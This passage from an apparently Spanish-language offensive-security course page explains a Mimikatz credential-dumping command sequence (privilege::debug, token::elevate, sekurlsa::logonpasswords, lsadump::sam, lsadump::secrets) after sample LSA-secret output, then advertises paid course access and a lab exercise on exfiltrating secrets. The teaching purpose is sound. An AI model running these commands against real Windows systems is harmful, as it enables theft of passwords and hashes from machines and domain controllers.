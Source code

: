 ```
old/hex : 01 00 00 00 3f 58 17 78 dc 26 36 52 37 eb 61 20 87 07 4c 73 40 d8 73 7d 36 32 97 aa 29 58 8c 35 f7 07 26 34 80 42 33 16 9f 13 c7 b9
    full: 3f581778dc26365237eb612087074c7340d8737d363297aa29588c35f7072634804233169f13c7b9
    m/u : 3f581778dc26365237eb612087074c7340d8737d / 363297aa29588c35f7072634804233169f13c7b9

Secret  : NL$KM
cur/hex : b6 96 c7 7e 17 8a 0c dd 8c 39 c2 0a a2 91 24 44 a2 e4 4d c2 09 59 46 c0 7f 95 ea 11 cb 7f cb 72 ec 2e 5a 06 01 1b 26 fe 6d a7 88 0f a5 e7 1f a5 96 cd e5 3f a0 06 5e c1 a5 01 a1 ce 8c 24 76 95
old/hex : b6 96 c7 7e 17 8a 0c dd 8c 39 c2 0a a2 91 24 44 a2 e4 4d c2 09 59 46 c0 7f 95 ea 11 cb 7f cb 72 ec 2e 5a 06 01 1b 26 fe 6d a7 88 0f a5 e7 1f a5 96 cd e5 3f a0 06 5e c1 a5 01 a1 ce 8c 24 76 95

mimikatz(commandline) # exit
Bye!
```
{% endcode %}

Vamos a desglosar cada parte del comando para entender mejor los procesos y tecnologías involucrados:

1. **.\mimikatz.exe**: Este es el comando para ejecutar Mimikatz. `.\` indica que Mimikatz se ejecuta desde el directorio actual en la línea de comandos de Windows.
2. **'privilege::debug'**: Este comando en Mimikatz solicita privilegios de depuración para el proceso Mimikatz. Los privilegios de depuración son necesarios para acceder a ciertas áreas de la memoria del sistema operativo y realizar operaciones que normalmente están restringidas.
3. **'token::elevate'**: Este comando intenta elevar los privilegios de Mimikatz. En el contexto de Mimikatz, esto generalmente significa obtener un token de seguridad de un proceso con privilegios más altos, permitiendo que Mimikatz opere con esos privilegios elevados.
4. **'sekurlsa::logonpasswords'**: Este comando extrae las contraseñas y otros datos de autenticación de la memoria del sistema, específicamente desde la seguridad de Kerberos, SSP, msv1\_0, entre otros. Utiliza el módulo sekurlsa de Mimikatz para acceder a la información almacenada por el proceso [LSASS (Local Security Authority Subsystem Service)](https://books.spartan-cybersec.com/cpad/persistencia-en-windows-local/que-es-mimikatz/lsass).
5. **'lsadump::sam'**: Este comando extrae las credenciales almacenadas en la base de datos SAM (Security Accounts Manager). La SAM contiene las credenciales de todos los usuarios locales del sistema y se utiliza generalmente para obtener hashes de contraseñas de cuentas locales.
6.  **'lsadump::secrets'**: Este comando se utiliza para extraer "secretos" almacenados por el sistema, como claves de acceso y otros datos sensibles, que pueden estar almacenados en el registro o en el servicio LSASS.

    ## Extraccion de credenciales con Mimikatz con binario

    Para llevar tu aprendizaje al siguiente nivel y practicar estas técnicas de manera segura y efectiva, te invitamos a adquirir acceso premium a nuestro material de curso. No pierdas esta oportunidad de profundizar tus conocimientos. Para más información y adquirir tu acceso, visita nuestro canal de ventas: [https://wa.link/j265a0](https://wa.link/j265a0). ¡Te esperamos para empezar este viaje juntos!

    **OBJETIVO DEL EJERCICIO #6:**

    Utilizar mimikatz en formato de binario sobre Windows para exfiltrar secretos. Para realizarlo es suficiente tener encendido UNICAMENTE `WEBSERVER` y `First-DC`.
